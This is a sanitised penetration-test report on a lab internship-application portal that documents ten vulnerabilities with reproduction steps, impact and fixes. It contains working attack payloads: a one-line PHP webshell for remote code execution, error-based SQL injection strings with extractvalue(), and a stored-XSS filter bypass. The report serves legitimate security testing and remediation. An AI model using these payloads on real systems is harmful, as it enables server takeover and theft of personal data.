# Web Application Security Assessment - Internship Application Portal

> **Sanitised lab report.** This is a redacted, educational write-up of a black-box
> web application penetration test performed against a deliberately vulnerable
> internship-application portal in a controlled lab. All client/organisation
> branding, hostnames, captured proof markers ("flags"), credentials, and password
> hashes have been removed or redacted. Screenshots have the same sensitive content
> blurred. Nothing here targets a live production system.

**Assessor:** Sizwe Marole
**Assessment type:** Black-box web application penetration test
**Target (anonymised):** `interns.target.local`
**Date of assessment:** 05-15 June 2026
**Report version:** 2.0 (sanitised for public release)

---

## Executive Summary

A black-box penetration test was conducted against an internship application portal
from the position of a registered intern with no access to source code or backend
configuration - the same starting point available to any external attacker. The
entire web application was in scope; the underlying hosting infrastructure was out of
scope. Ten vulnerabilities were identified: **four High, one Medium, four Low, and one
Informational.**

Four of the ten are High. The worst is an unrestricted file upload: a normal intern
account can run commands on the server and take it over completely with a single
request. A second, in the profile-update endpoint, leaks the whole database on one
authenticated request, including the email address and password hash of every user.
The other two let any intern read any other user's private profile, and store
JavaScript that executes in another user's browser, including the administrator's.

Each issue is serious on its own. Chained together they are worse. The database leak
exposes the file references for every candidate's CV, and the CV directory requires no
authentication, so those references are all an attacker needs to download the files.
The stored JavaScript can capture a live session token; if an administrator views the
malicious profile, the attacker inherits the admin session. Logging out does not help,
because the refresh token remains valid and a new session can be minted from it.

The end result is full account takeover and a level of access a normal intern should
never have. As it stands the portal is critically vulnerable and should not go live
until the High-risk issues are fixed - in order: file upload, SQL injection, then the
access-control and cross-site-scripting issues.

---

## Findings Summary

| # | Finding | Severity | CVSS v3.1 | CWE | OWASP 2021 |
|---|---------|----------|-----------|-----|------------|
| 1 | Unrestricted File Upload → Remote Code Execution | **High** | 8.8 | CWE-434 | A03 / A05 |
| 2 | Error-Based SQL Injection (profile update) | **High** | 8.1 | CWE-89 | A03 |
| 3 | IDOR - Unauthorised Access to Any Profile | **High** | 6.5 | CWE-639 | A01 |
| 4 | Stored Cross-Site Scripting (surname field) | **High** | 6.1 | CWE-79 | A03 |
| 5 | Assignment Logic Flaws (scoring / retakes) | Low | 4.3 | CWE-840 | A04 |
| 6 | JWT Refresh Token Not Invalidated on Logout | Medium | 5.3 | CWE-613 | A07 |
| 7 | Weak Password Policy | Low | 3.7 | CWE-521 | A07 |
| 8 | No Rate Limiting on Authentication | Low | 5.3 | CWE-307 | A07 |
| 9 | Missing HTTP Security Headers | Low | 4.3 | CWE-693 / CWE-1021 | A05 |
| 10 | Information Disclosure (versions / verbose errors) | Info | 5.3 | CWE-200 / CWE-209 | A05 |

> **CVSS vs engagement severity.** A few findings carry a higher *engagement* severity
> than their raw CVSS base score because the business impact (volume of personal data,
> position in the attack chain) elevates real-world risk above the technical base
> metric. Both are shown so the reader can see the reasoning.

---

## Methodology

All testing was manual. Burp Suite Community Edition intercepted and replayed requests,
`curl` sent crafted requests directly, and browser developer tools showed how responses
rendered. No automated scanners were run; the SQL injection was extracted by hand with
error-based `extractvalue()` payloads rather than a tool such as sqlmap.

The application was first walked through with a normal intern account, mapping every
page, form, and API endpoint while Burp recorded the traffic. The file upload, the input
fields, the access-control checks, and the login flow were marked as priority test areas.
Each endpoint was then tested individually: a clean request first to observe normal
behaviour, then test payloads to watch for errors, unexpected output, or inconsistency.
Once a weakness was confirmed it was written up with the exact request, the response, and
reproduction steps, and screenshots were captured along the way.

This methodology aligns with the **OWASP Web Security Testing Guide (WSTG)** and findings
are classified using **CWE**, mapped to the **OWASP Top 10 (2021)**, and scored with
**CVSS v3.1**.

## Risk Rating Definitions

| Rating | Definition |
| --- | --- |
| **High** | Potential for an attacker to control, alter, or delete electronic assets. Unauthorised access, data capture, defacement. |
| **Medium** | Combined with other factors, potential for asset compromise. Conditional or configuration-dependent exploitation. |
| **Low** | Likelihood or impact of exploitation is extremely low. Weak ciphers, outdated protocols, programmatic CAPTCHA bypass. |
| **Informational** | Cannot be exploited directly but not aligned with best practice. Information disclosure, version leakage. |

---

## Findings

### Finding 1: Unrestricted File Upload - Remote Code Execution and Unauthenticated CV Access

**Severity:** High &nbsp;|&nbsp; **CVSS v3.1:** 8.8 (`AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`)
**CWE:** CWE-434 - Unrestricted Upload of File with Dangerous Type
**OWASP Top 10 (2021):** A03:2021 Injection · A05:2021 Security Misconfiguration
**Proof captured:** Yes (marker value redacted)

**Description:** The CV upload section accepts any file with no validation of extension,
Content-Type, or content. Uploaded files are stored inside the **cv-view/** directory,
which sits in the Apache web root with PHP execution enabled, and the profile API returns
the file's UUID name. A registered intern can upload a PHP webshell, read its path from the
profile endpoint, and run operating-system commands as **www-data** with a single request.
The same directory is served without authentication, so any uploaded file can be downloaded
by anyone who knows the UUID.

**Reproduction Steps:**

1. Register an account and log in.
2. Intercept a CV upload in Burp Suite - **POST /api/v1/profile/cv**, form field **cv**.
3. Set the filename to **shell.php**, the Content-Type to **application/x-php**, and the body to:

   ```php
   <?php echo system($_GET["cmd"]); ?>
   ```

4. Forward the request. The server returns **201 Created**.
5. Fetch your profile **GET /api/v1/profile/** and note the **cv.filename** value.
6. Browse to **/cv-view/<cv_filename>?cmd=id**. The response shows **uid=33(www-data)**, confirming RCE.
7. Read protected server-side files, e.g. `cat /etc/passwd`, the application source, or environment secrets.

**Business Impact:** This is full server compromise from a self-registered account. The
attacker runs commands as **www-data** and can read database credentials, every candidate's
CV, the application source, and environment secrets, then pivot further into the hosting
environment. No privilege escalation is needed, which makes this the most damaging issue in
the report. Code execution also lets the attacker change or delete data, tamper with other
users' records, deface the portal, or take the site offline - so the damage spans integrity
and availability as well as data theft. The CVs and personal records exposed here are
personal information under POPIA, and serving them with no authentication is a direct failure
of the security safeguards Section 19 of the Act requires. South African CVs usually carry an
identity number along with contact and work history, so the exposed data likely includes
especially sensitive details, triggering the Section 22 duty to notify the Information
Regulator and affected data subjects.

**Evidence:**



*__Figure 1.1__ - Baseline CV upload accepted.*



*__Figure 1.2__ - Server returns 201 Created on upload.*



*__Figure 1.3__ - Profile API returns the stored file UUID.*



*__Figure 1.4__ - Uploaded file reachable at /cv-view/ with no auth.*



*__Figure 1.5__ - Shell.php upload accepted with 201.*



*__Figure 1.6__ - Id returns uid=33(www-data), confirming RCE.*



*__Figure 1.7__ - Directory listing via the webshell.*



*__Figure 1.8__ - /etc/passwd read through the webshell.*



*__Figure 1.9__ - Listing of /var/www via the webshell.*

**Remediation:** Validate uploads by file content, not the client-supplied filename or
Content-Type. For PDFs, verify the **%PDF** magic bytes. Discard the original filename and
store a server-generated UUID. Most importantly, store uploads **outside the web root** and
serve them through an authenticated download handler that rejects unauthenticated requests.

---

### Finding 2: Error-Based SQL Injection in Profile Update Endpoint

**Severity:** High &nbsp;|&nbsp; **CVSS v3.1:** 8.1 (`AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:L/A:N`)
**CWE:** CWE-89 - Improper Neutralization of Special Elements used in an SQL Command
**OWASP Top 10 (2021):** A03:2021 Injection
**Proof captured:** Yes (marker value redacted)

**Description:** The profile update endpoint **PATCH /api/v1/profile/** interpolates the
**email** field directly into a SQL query with no sanitisation. A single quote in the email
value returns a raw MariaDB syntax error in the response, confirming the input reaches the
database and that detailed errors are exposed. The injection supports error-based extraction
with MariaDB's **extractvalue()** function, which embeds the result of a subquery inside an
XPath error message. Output is capped at 32 characters, so longer values are read in chunks.
Using this, the database version, all schema names, table structures, and the contents of
sensitive tables were extracted.

**Reproduction Steps:**

1. Log in and capture a valid access token.
2. Confirm the injection point with a single quote in the email field:

   ```http
   PATCH /api/v1/profile/
   {"email": "test'@gmail.com"}
   ```

   Expected: **500** with a raw MariaDB syntax error in the response body.
3. Leak the database version:

   ```json
   {"email": "test@x.com' AND extractvalue(1,concat(0x7e,(SELECT @@version)))-- "}
   ```

   Response includes **10.11.14-MariaDB-0ubuntu0.24.04**.
4. Enumerate schema and table names by substituting subqueries against **information_schema**.
5. Extract longer values in 32-character chunks using `SUBSTRING(...)` and recombine.

**Business Impact:** The injection reaches the live application database, which holds
**users**, **cvs**, **assignments**, **user_answers**, and **token_blocklist**. The **users**
table contains over 120 records with real email addresses and bcrypt password hashes,
including the administrator hash (redacted):

```
$2b$12$[REDACTED]
```

The **cvs** table exposes every uploaded CV UUID, which combines with the unauthenticated
file serving in Finding 1 to allow download of every candidate's CV. A single unprivileged
request results in a **complete breach of personal data for the entire user base**, along
with the password hashes needed to escalate toward the administrator account offline. Because
the users table holds names, email addresses, and CV references of over 120 real individuals,
exposing it on a single request is exactly the kind of unauthorised access POPIA's breach
provisions address: a failure of the Section 19 security-safeguards duty that triggers the
Section 22 obligation to notify the Information Regulator and affected data subjects.

**Evidence:**



*__Figure 2.1__ - Single quote returns a raw MariaDB syntax error.*



*__Figure 2.2__ - Extractvalue leaks the MariaDB version.*



*__Figure 2.3__ - Schema enumeration via information_schema.*



*__Figure 2.4__ - Table enumeration in the active database.*



*__Figure 2.5__ - Discovery of the users table.*



*__Figure 2.6__ - Discovery of the assignments table.*



*__Figure 2.7__ - Discovery of the user_answers table.*


*__Figure 2.8__ - Discovery of the cvs table.*



*__Figure 2.9__ - Discovery of the token_blocklist table.*

**Remediation:** Use parameterised statements for every query that includes user input,
across the whole codebase, so SQL logic is separated from data. Stop returning raw database
errors to clients; log full error details server-side only.

---

### Finding 3: Insecure Direct Object Reference - Unauthorised Access to Any Profile

**Severity:** High &nbsp;|&nbsp; **CVSS v3.1:** 6.5 (`AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`) · engagement severity High
**CWE:** CWE-639 - Authorization Bypass Through User-Controlled Key
**OWASP Top 10 (2021):** A01:2021 Broken Access Control
**Proof captured:** Yes (marker value redacted)

**Description:** The endpoint **GET /api/v1/profile/** accepts an optional **?nickname=**
parameter. When supplied, the server returns the matching profile without checking that the
caller is authorised to view it. Any valid intern token can therefore read any user's profile,
including the admin account. The leaderboard endpoint returns every registered nickname,
providing a complete target list.

**Reproduction Steps:**

1. Log in as any intern and obtain an access token.
2. Request another user's profile:

   ```http
   GET /api/v1/profile/?nickname=admin
   Authorization: Bearer <intern_token>
   ```

3. The response returns that user's full profile, including **id**, email, and other
   personal fields, with no authorisation check.

**Business Impact:** The leaderboard lists the nicknames of all 120+ interns, and any one can
be passed to **?nickname=** to read that user's name, email, university, degree, and CV
filename - using nothing more than a standard intern token. The exposure covers every
registered user, not just the administrator account. The CV filenames returned here also feed
the unauthenticated download in Finding 1, so a profile read is enough to then retrieve each
candidate's actual documents. On its own, the disclosure of names, emails, universities, and
CV references across the user base is a POPIA concern: the missing access control releases
personal information without the safeguards Section 19 requires, separate from the file
download in Finding 1.

**Evidence:**



*__Figure 3.1__ - Leaderboard page listing intern nicknames.*



*__Figure 3.2__ - Leaderboard API response with full nickname list.*



*__Figure 3.3__ - Privileged profile returned to an intern token.*


*__Figure 3.4__ - Another intern's full profile retrieved.*


*__Figure 3.5__ - A further intern profile retrieved.*


*__Figure 3.6__ - A further intern profile retrieved.*



*__Figure 3.7__ - Confirms the vulnerability scales across the user base.*

**Remediation:** Remove the **?nickname=** parameter and always return the authenticated
user's own profile based on JWT claims. If lookups by nickname are genuinely required,
restrict them to admin accounts behind an explicit server-side permission check. Apply the
same server-side ownership check to every endpoint that returns object-scoped data.

---

### Finding 4: Stored Cross-Site Scripting in the Surname Field

**Severity:** High &nbsp;|&nbsp; **CVSS v3.1:** 6.1 (`AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N`) · engagement severity High
**CWE:** CWE-79 - Improper Neutralization of Input During Web Page Generation
**OWASP Top 10 (2021):** A03:2021 Injection
**Proof captured:** Yes (marker value redacted)

**Description:** The **surname** field accepted by **POST /api/v1/auth/register** is stored
without sanitisation and returned in profile responses without output encoding. A registration
WAF blocks common payloads such as **script**, **img onerror**, and **svg onload** by tag and
event-handler blocklist. An **h4** element with **tabindex=0** and an **onfocus** handler
bypasses the blocklist: the **h4** tag is not blocked, **tabindex=0** makes it focusable, and
**onfocus** fires JavaScript when it gains focus. The payload
`<h4 id=x tabindex=0 onfocus=alert(document.cookie)>`, used here only to confirm script
execution, was stored and returned unencoded.

**Reproduction Steps:**

1. Register a new account with the bypass payload in the surname field:

   ```json
   {
     "email": "tester@example.com",
     "password": "Sizwe-Test-1234",
     "name": "sizwe",
     "surname": "<h4 id=x tabindex=0 onfocus=alert(document.cookie)>",
     "nickname": "tester1",
     "degree": "Postgraduate in Information Technology",
     "university": "Central University of Technology"
   }
   ```

2. The server returns **201 Created**.
3. Log in and fetch the profile **GET /api/v1/profile/**. The raw payload appears in the
   **surname** field.
4. Open the profile in the web UI. The surname is reflected without output encoding, unlike the
   other fields, confirming the stored payload is served back to the browser.

**Business Impact:** The surname is stored without sanitisation and returned without output
encoding, while the other profile fields are encoded. An attacker can store HTML and script in
their own record, and it is served to anyone who later views that profile, including the
administrator. Where the value is rendered as HTML rather than inside a form input, the onfocus
payload runs in the viewer's session. The application returns access and refresh tokens in the
login response body and keeps them in browser storage that JavaScript can read (see Finding 6),
so a script running in an administrator's session can read both tokens and exfiltrate them to a
server the attacker controls. That gives account takeover, and through the refresh-token flaw in
Finding 6, lasting access. The proof-of-concept only calls `alert(document.cookie)` to confirm
execution; since the tokens are not in cookies, a real attack would read them from browser
storage instead. The WAF gave false confidence - blocking well-known payloads while a trivial
variant walked straight through.

**Evidence:**



*__Figure 4.1__ - Surname reflected unencoded; other fields entity-encoded.*



*__Figure 4.2__ - Baseline script-tag payload behaviour.*



*__Figure 4.3__ - H4 bypass payload accepted at registration with 201.*



*__Figure 4.4__ - Confirmation of the accepted payload.*



*__Figure 4.5__ - Payload returned unencoded in the profile API response.*



*__Figure 4.6__ - Stored payload rendered unencoded in the profile form.*

**Remediation:** Strip HTML from name fields on input and allow only letters, spaces, hyphens,
and apostrophes. Apply context-aware output encoding when rendering user data. Treat the WAF as
a supplementary control only; blocklists are routinely bypassed.

---

### Finding 5: Assignment Logic Flaws - Unenforced Scoring, Unlimited Retakes, and Weak Essay Grading

**Severity:** Low &nbsp;|&nbsp; **CVSS v3.1:** 4.3 (`AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N`)
**CWE:** CWE-840 - Business Logic Errors
**OWASP Top 10 (2021):** A04:2021 Insecure Design
**Proof captured:** Yes (marker value redacted)

**Description:** The assignment system has several related logic flaws. The submission endpoint
**POST /api/v1/assignments/1/submit** returns a protected marker in the raw response body
regardless of score; it never appears in the web UI and is only visible by inspecting the
response. Submitting deliberately wrong or low-scoring answers still returns it - a submission
scoring 32.6% with 3 of 9 MCQs correct returned it in full. Once an assignment is marked
complete, calling the start endpoint again creates a fresh submission, allowing unlimited
retakes. The essay grader also awards a high score to trivial input - a single-character essay
scored roughly 88% - and submissions are accepted with no minimum time.

**Reproduction Steps:**

1. Start the assignment: **POST /api/v1/assignments/1/start**
2. Submit with any answers, including all wrong ones: **POST /api/v1/assignments/1/submit**
3. The protected marker is returned in the raw JSON response regardless of score (visible in Burp).
4. Call start again on the same assignment to obtain a new **submission_id** and retake without limit.

**Business Impact:** Anyone who reaches the submission endpoint obtains the marker, and unlimited
retakes plus weak essay grading make the leaderboard score worthless as a measure of anything. An
intern who knows this can score high without doing the work, which is unfair to other candidates
and defeats the assessment. The likelihood is high, but the flaw only damages the fairness of the
assessment, not access to other users' data or the system itself, so it is rated Low.

**Evidence:**



*__Figure 5.1__ - Assignment dashboard before submission.*



*__Figure 5.2__ - Submission confirmation in the web UI.*



*__Figure 5.3__ - Start endpoint called again after completion.*



*__Figure 5.4__ - New submission issued, confirming unlimited retakes.*

**Remediation:** Score submissions server-side and only return any completion token once a defined
pass threshold is met. Reject any start call once a submission exists for that user and assignment.
Replace the lenient essay scoring with a credible grading method and enforce a minimum engagement
time.

---

### Finding 6: JWT Refresh Token Not Invalidated on Logout

**Severity:** Medium &nbsp;|&nbsp; **CVSS v3.1:** 5.3 (`AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:N/A:N`)
**CWE:** CWE-613 - Insufficient Session Expiration
**OWASP Top 10 (2021):** A07:2021 Identification and Authentication Failures
**Proof captured:** N/A

**Description:** On login the application issues an access token and a refresh token. Logout
**DELETE /api/v1/auth/logout** adds the access token's **jti** to a blocklist, so that token is
rejected afterwards, but the refresh token's **jti** is not blocklisted. A refresh token captured
before logout still works after logout and can be submitted to **POST /api/v1/auth/refresh** to
mint a new access token. Logout does not fully terminate the session.

**Reproduction Steps:**

1. Log in **POST /api/v1/auth/login** and record both tokens.
2. Log out **DELETE /api/v1/auth/logout** with the access token.
3. Confirm the access token is now rejected: any authenticated request returns **401 TOKEN_REVOKED**.
4. Send the retained refresh token to **POST /api/v1/auth/refresh**.
5. The server returns a new, usable access token despite the logout.

**Business Impact:** A captured refresh token - for example one stolen through the stored XSS in
Finding 4 - keeps working for the attacker after the real user has logged out, and the user has no
way to end their own session. This is the persistence step in the attack chain: one stolen token is
no longer a one-time problem; it gives lasting access that survives the user logging out.

**Evidence:**



*__Figure 6.1__ - Login issues both access and refresh tokens.*



*__Figure 6.2__ - Decoded token showing the jti and type claims.*



*__Figure 6.3__ - DELETE logout request with the access token.*



*__Figure 6.4__ - Reused access token returns 401 TOKEN_REVOKED.*



*__Figure 6.5__ - Refresh token still mints a new access token after logout.*

**Remediation:** Blocklist both the access and refresh token **jti** on logout. The
**token_blocklist** table already exists, so add one INSERT for the refresh token's **jti** in the
same logout request.

---

### Finding 7: Weak Password Policy

**Severity:** Low &nbsp;|&nbsp; **CVSS v3.1:** 3.7 (`AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N`)
**CWE:** CWE-521 - Weak Password Requirements
**OWASP Top 10 (2021):** A07:2021 Identification and Authentication Failures
**Proof captured:** N/A

**Description:** Registration **POST /api/v1/auth/register** enforces a minimum length of eight
characters but no complexity. An all-numeric eight-digit password was accepted with no requirement
for mixed character classes and no rejection of trivially weak values.

**Reproduction Steps:**

1. Register with **"password": "12345678"**.
2. The server returns **201 Created**. The all-numeric password is accepted.

**Business Impact:** The SQL injection in Finding 2 exposes bcrypt hashes for all users. Weak
passwords crack quickly offline, after which an attacker can log in directly with the recovered
credentials. The admin hash is subject to the same risk.

**Evidence:**


*__Figure 7.1__ - Eight-digit numeric password accepted with 201 Created.*

**Remediation:** Add complexity rules to the existing length check (upper, lower, digit, special),
enforced server-side. Optionally reject breached passwords via the HaveIBeenPwned k-anonymity API.

---

### Finding 8: No Rate Limiting on Authentication

**Severity:** Low &nbsp;|&nbsp; **CVSS v3.1:** 5.3 (`AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N`)
**CWE:** CWE-307 - Improper Restriction of Excessive Authentication Attempts
**OWASP Top 10 (2021):** A07:2021 Identification and Authentication Failures
**Proof captured:** N/A

**Description:** The login endpoint **POST /api/v1/auth/login** applies no rate limiting, lockout,
or throttling. Repeated failed attempts are all processed and return **401** with no **429**, no
delay, and no account lockout, permitting unrestricted brute-force and credential-stuffing attacks.

**Reproduction Steps:**

1. Send many login requests in quick succession with an incorrect password, using Burp Intruder or a script.
2. Every request returns 401 with no throttling, no 429, and no increasing delay.

**Business Impact:** Combined with the leaderboard exposing 120+ valid nicknames and the weak
password policy (Finding 7), an attacker can run large credential-stuffing or brute-force campaigns
against confirmed accounts with no server-side restriction.

**Evidence:**



*__Figure 8.1__ - 30 attempts all return 401 with no 429 or lockout.*

**Remediation:** Apply per-account rate limiting as the primary control (per-IP limits are easily
evaded by rotating addresses), and add a CAPTCHA or step-up challenge after repeated failures.
Return **429** with a retry-after header and apply temporary lockout or increasing backoff.

---

### Finding 9: Missing HTTP Security Headers

**Severity:** Low &nbsp;|&nbsp; **CVSS v3.1:** 4.3 (`AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:N/A:N`)
**CWE:** CWE-693 - Protection Mechanism Failure · CWE-1021 - Improper Restriction of Rendered UI Layers
**OWASP Top 10 (2021):** A05:2021 Security Misconfiguration
**Proof captured:** N/A

**Description:** Responses omit several standard security headers: **Content-Security-Policy**,
**X-Frame-Options**, **X-Content-Type-Options**, **Referrer-Policy**, and **Permissions-Policy**.
Their absence removes browser-side defences that would limit the impact of other issues such as the
stored XSS in Finding 4.

**Reproduction Steps:**

1. Send any request, for example **GET /**, and inspect the response headers in Burp Suite or DevTools.
2. None of the listed security headers are present.

**Business Impact:** Without a Content-Security-Policy, the stored XSS in Finding 4 runs with no
browser-enforced restriction. Without X-Frame-Options the app can be framed for clickjacking, and
without X-Content-Type-Options browsers may MIME-sniff responses. These are defence-in-depth controls
rather than direct vulnerabilities.

**Evidence:**


*__Figure 9.1__ - Login response shows none of the five security headers.*


*__Figure 9.2__ - Authenticated profile response returns the same minimal headers.*

**Remediation:** Add the headers at the nginx layer so they apply to all responses:

```nginx
add_header X-Content-Type-Options "nosniff" always;
add_header X-Frame-Options "DENY" always;
add_header Referrer-Policy "no-referrer" always;
add_header Content-Security-Policy "default-src 'self'" always;
add_header Permissions-Policy "geolocation=(), microphone=()" always;
```

Refine the Content-Security-Policy to match the application's real script and resource sources before deployment.

---

### Finding 10: Information Disclosure - Server Version Headers and Verbose Database Errors

**Severity:** Informational &nbsp;|&nbsp; **CVSS v3.1:** 5.3 (`AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N`)
**CWE:** CWE-200 - Exposure of Sensitive Information · CWE-209 - Generation of Error Message Containing Sensitive Information
**OWASP Top 10 (2021):** A05:2021 Security Misconfiguration
**Proof captured:** N/A

**Description:** The application discloses exact software versions through several channels. The
**Server** header reads **nginx/1.24.0 (Ubuntu)** on all responses, and responses served by the PHP
backend include **X-Powered-By: PHP/8.x**. In addition, the profile update endpoint returns raw
MariaDB error messages on a malformed query, confirming the engine and version (**MariaDB 10.11.14**).
The verbose errors are the same behaviour that enables the SQL injection in Finding 2.

**Reproduction Steps:**

1. Send any request and inspect the **Server** header (**nginx/1.24.0 (Ubuntu)**). On a PHP-backed response the **X-Powered-By** header is also present.
2. Send **PATCH /api/v1/profile/** with **{"email": "test@x.com'"}** and observe the raw MariaDB error in the response body.

**Business Impact:** Knowing the exact versions lets an attacker match published **CVEs** to the
running software without guesswork, which makes finding a working exploit faster. On its own it is
not directly exploitable; it accelerates reconnaissance. Each disclosed component should be
cross-referenced against the **NVD** (https://nvd.nist.gov) for version-specific CVEs as part of
patch management - e.g. the running nginx, PHP, and MariaDB builds should be checked and patched to
the latest stable release.

**Evidence:**


*__Figure 10.1__ - Response shows nginx Server header and a raw MariaDB error.*


*__Figure 10.2__ - Response headers include the X-Powered-By PHP version.*

**Remediation:** Suppress version data: set **server_tokens off** in nginx and **expose_php = Off**
in php.ini. Return generic database errors to clients, as covered in Finding 2. Maintain a patch
cadence that tracks NVD advisories for the deployed nginx/PHP/MariaDB versions.

---

## Conclusion

A self-registered account is enough to take full control of the server and keep that access after
logging out. The portal should not go live until the High-risk findings are fixed. The legal risk is
real, not theoretical: the Information Regulator's first POPIA fine - R5 million against a government
department in 2023 - came from this same pattern of a security breach and a failure of the duties in
Sections 19 and 22.

Ten vulnerabilities were found: four High, one Medium, four Low, and one Informational. Two of the
High findings - the file upload and the SQL injection - are each enough on their own to hand over the
server and the full database. The bigger problem is how the High findings feed each other (Findings 1
to 4): what one leaks becomes the way into the next, ending in an admin takeover and access that
survives logout.

Fix in order of risk: the file upload first, then the SQL injection, then the access-control and
cross-site-scripting issues. The same root cause runs through all four High findings - user input
reaches sensitive operations with no validation or output encoding. One validation and output-encoding
standard, applied to every endpoint, fixes the whole class of bug instead of these few cases. The
authentication, password, enumeration, header, and information-disclosure findings can be handled once
the High-risk work is done.

---

## Standards & References

- **OWASP Top 10 (2021)** - https://owasp.org/Top10/
- **OWASP Web Security Testing Guide (WSTG)** - https://owasp.org/www-project-web-security-testing-guide/
- **MITRE CWE** - https://cwe.mitre.org/ (CWE-434, 89, 639, 79, 840, 613, 521, 307, 693, 1021, 200, 209)
- **CVSS v3.1 Specification** - https://www.first.org/cvss/v3.1/specification-document
- **NIST National Vulnerability Database (CVE lookup)** - https://nvd.nist.gov/
- **POPIA** - Protection of Personal Information Act 4 of 2013 (South Africa), Sections 19 & 22
